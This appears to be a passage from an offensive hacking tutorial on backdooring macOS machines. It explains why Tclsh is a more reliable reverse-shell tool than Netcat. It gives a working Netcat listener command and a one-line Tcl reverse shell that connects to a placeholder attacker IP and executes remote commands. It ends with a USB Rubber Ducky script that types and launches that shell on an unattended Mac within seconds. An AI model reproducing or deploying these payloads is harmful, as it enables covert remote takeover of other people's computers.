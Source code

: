 As mentioned, creating Netcat backdoors can be established with minimal characters, making it the ideal method for quickly getting remote access to a Mac desktop or laptop. However, if the MacBook or other macOS device suddenly goes to sleep, locks, or the Wi-Fi connection is lost while the attacker is issuing remote commands, the Netcat process may become frozen and fail to terminate; This ultimately leaves the attacker with no new way to remotely access the device.

Fortunately, Tclsh handles sudden disconnections gracefully and is already present in all macOS devices. If you're a macOS user, you can test this by opening a Terminal and typing tclsh. You'll find that ls and ifconfig function as expected.

Start a Netcat Listener:

	nc -l -p 9999 (on mac)

Execute the Tclsh Command:

	echo 'set s [socket 1.2.3.4 9999];while 42 { puts -nonewline $s "hacker> ";flush $s;gets $s c;set e "exec $c";if {![catch {set r [eval $e]} err]} { puts $s $r }; flush $s; }; close $s;' | tclsh &

Rubber Ducky Payloads: (optional)

Let's focus on using a USB Rubber Ducky to execute the command where a few seconds of physical access is possible. Below is an example payload.

Rubber Ducky Script:

	DELAY 1500
	GUI SPACE
	DELAY 350
	STRING terminal
	DELAY 100
	ENTER
	DELAY 1000
	STRING echo 'set s [socket 1.2.3.4 9999];while 42 { puts -nonewline $s "hacker> ";flush $s;gets $s c;set e "exec $c";if {![catch {set r [eval $e]} err]} { puts $s $r }; flush $s; }; close $s;' | tclsh &
	ENTER
	GUI q